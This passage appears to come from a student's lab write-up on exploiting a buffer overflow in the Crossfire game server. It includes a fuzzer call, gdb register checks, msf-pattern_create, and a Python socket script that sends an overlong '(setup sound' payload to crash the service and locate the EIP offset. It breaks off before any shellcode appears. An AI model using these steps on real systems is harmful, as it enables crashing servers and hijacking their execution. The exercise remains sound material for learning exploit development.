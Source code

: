 ```python
    
    # Find the port
    port = 13327
    
    # Run the fuzzer
    fuzz_crossfire(server, port)
```

Run the script
```python3
python3 exploit.py
```

One thing I noticed is that the program doesn't really respond well with high `step_sizes` so I brought it down to `20` instead. Here the program starts at buffer size `100` and increments by `20` until we don't get a conn refused indicating that the program crashed! 

Here's the initial result with a `step_size` of `20`:
![[Pasted image 20250402222240.png]]
Starting at `4300` and reducing `step_size` to `1` allows us to pinpoint the exact buffer size needed to crash Crossfire:
![[Pasted image 20250402222800.png]]
So the min no. of bytes to crash the program is `4377` bytes
### The memory location of EIP (per slide 18)

First we run Crossfire and debug via `gdb`
```bash
gdb --args ./crossfire
```
Then run and check `EIP` reg value
```gdb
run
info registers
```
Default register table
![[Pasted image 20250402232151.png]]
These are our default values. Now let's try to overwrite `EIP` with BOF

To get the EIP offset, let's create a pattern with `msf` using our previously obtained minimum byte size of `4377` for program crash, and save it to a txt file for easy copy-pasting
```bash
msf-pattern_create -l 4377 > pattern.txt
```
and create a simple python script to crash
```python
#!/usr/bin/python
import socket as so

server = "192.168.1.200"
port = 13327

# Replace with your pattern from pattern_create.rb
pattern = <contents from pattern.txt>

try:
    s = so.socket(so.AF_INET, so.SOCK_STREAM)
    string = "\x11(setup sound " + pattern + "\x90\x00#"
    s.connect((server, port))
    print "\nSending pattern of %s bytes" % len(string)
    s.send(string)
    s.close()
except:
    print "[!] Connection refused, check debugger"
```
And then find EIP offset with `pattern_offset`